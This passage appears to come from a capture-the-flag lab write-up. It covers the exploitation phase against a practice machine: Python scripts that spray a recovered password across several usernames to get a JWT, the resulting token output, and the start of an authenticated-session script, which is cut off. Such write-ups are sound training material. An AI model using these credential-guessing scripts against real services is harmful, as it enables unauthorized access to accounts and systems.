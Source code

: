 
## PART 3 : EXPLOITATION

1. Generate a JWT (JSON Web Token) for the service running on port 3000:
   1. `token_search.py`:
      ```py
      import requests as r

      target = "http://10.10.10.137:3000"

      headers = { "Content-Type": "application/json" }

      usernames = ["root", "chihiro", "derry", "admin", "administrator", "Chihiro", "Derry"]
      for username in usernames:
          data = {
              "username": username,
              "password": "Zk6heYCyv6ZE9Xcg"
          }
          auth = r.post(target+"/login", headers=headers, json=data)

          if "Forbidden" not in auth.text: 
              print("[JWT FOUND]\n\nUSERNAME:", username)
              print("\nTOKEN:", auth.json()["token"])
              break
      ```
   2. Running `token_search.py` using `python3`:
      ```console
      $ python3 token_search.py
        [JWT FOUND]
        
        USERNAME: admin
        
        TOKEN: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY2ODU2MTM0LCJleHAiOjE1NjY5NDI1MzR9.b0u3Mb8h0GPSsIRGOiWYqHH1QANE1ogY_HFCfjskvGQ
      ``` 
      __NOTE(S)__:
      1. The password from `config.php` earlier authenticated the user, `admin`.
      2. A valid token is now available for use.
         - The token changes everytime a user is authenticated.
>
3. Enumerate the service on port 3000 using an authenticated session:
   1. `3000.py`:
      ```py
      import requests as r

      target = "http://10.10.10.137:3000"
      session = r.Session()
      
      # ===EXTRACTING-THE-JSON-WEBTOKEN===================================
      
      headers = { "Content-Type": "application/json" }
      data = {
          "username": "admin",
          "password": "Zk6heYCyv6ZE9Xcg"
      }
      login = session.post(target+"/login", headers=headers, json=data)
      try:
          token = login.json()["token"]
          print("\n[JSON WEB TOKEN]\n\n" + token + "\n")
      except:
          print("\nNO TOKEN FOUND\n")
          exit()
      